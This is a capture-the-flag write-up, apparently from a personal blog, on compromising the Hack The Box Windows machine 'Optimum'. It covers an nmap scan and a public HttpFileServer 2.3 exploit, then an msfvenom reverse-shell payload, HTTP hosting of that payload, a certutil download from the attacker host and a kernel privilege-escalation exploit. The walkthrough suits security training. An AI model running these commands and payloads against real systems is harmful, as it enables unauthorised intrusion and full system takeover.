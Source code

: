 # Box: Optimum
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A -T4 -v -p- 10.129.111.57```

```
Nmap scan report for 10.129.111.57
Host is up (0.20s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.015 days (since Sun Sep 17 16:46:43 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   197.31 ms 10.10.14.1
2   197.47 ms 10.129.111.57

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 17 17:07:49 2023 -- 1 IP address (1 host up) scanned in 778.27 seconds
```
From the above scan, we have only 1 open port and that's the port that runs the http service. This means our enumeration today will be focused on port 80



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cf65020f-9ec8-4168-8321-c1fbb958b182)

This webpage is being hosted by ```HttpFileServer```. 

I think there's an exploit for this version of ```HttpFileServer```, well lets check

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5fe5acce-0ed1-4c83-91a3-eed36f756e5f)

Well there is😅. Lets exploit right away



# Exploitation

Well, I found this great exploit, you can download it [here](https://www.exploit-db.com/exploits/39161)

So, we'll set the ```LHOST``` to our tun0 ip, we'll also set the ```LPORT``` to the port we plan on listening on

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/de36cb6b-4ff8-4fc4-a752-ca27abd72924)

Save the script.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/21bb23c8-3b48-4005-97d5-6ebc0b50c93d)

As per the instruction in the script, we were told to host a ```nc.exe``` file, well I generated the ```.exe``` file using msfvenom

command:```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.43 LPORT=443 -f exe -o nc.exe```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/optimum]                                                                                                                                             
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.43 LPORT=443 -f exe -o nc.exe                                                                                                          
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: nc.exe
```
Ensure you have your netcat listener ready before running the script

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/35697632-7b3e-4ef6-a9f3-c6e3b673af51)

Running the script requires the target's ip and port

command:```python2 39161.py 10.129.58.117 80```

Alongside running this script, we'll host the ```nc.exe``` file

command:```python3 -m http.server 80```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5b672fd6-0647-4542-85b7-ea610ab8a276)

Checking our netcat listener,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3f9625a2-cadc-4c0d-aa9f-c5b27dddfd01)

We didn't spawn a shell🥲, running the script again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0b69eaaf-5c0c-43dd-a51f-967ee0e70029)

Checking our netcat listener,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ae181f7e-1f08-435b-be9d-878565aa2d11)

We got a user shell🙂. Lets go ahead and escalate our privileges.



# Privilege Escalation

Running the ```systeminfo``` command, I found something interesting

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b58931ff-6670-4ec3-ab48-fb7ae352017d)

Well, that os version has a vulnerability that can assist us in escalatiing our privileges. 

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e89a4685-f2bc-4a1b-b559-0cd239244148)

You can get the exploit [here](https://www.exploit-db.com/exploits/41020). Well, this exploit is in ```.c```, we can just download the ```.exe``` file, since it will be easier to execute on a windows target. You can download the ```.exe``` flle from [here](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe)

The next thing we'll do is send this over to the target's machine

command:```certutil -urlcache -f http://10.10.14.44/41020.exe exploit.exe```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dc3b5e8a-95f9-4348-8934-ffb848376b5a)

To execute this file we can run the command ```.\exploit.exe```, this should drop us in a privileged shell

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/655eac48-a120-4c28-ab9f-8a092bc11ced)

We have successfully pwned this box 😎


That will be all for today
<br> <br>
[Back To Home](../../index.md)








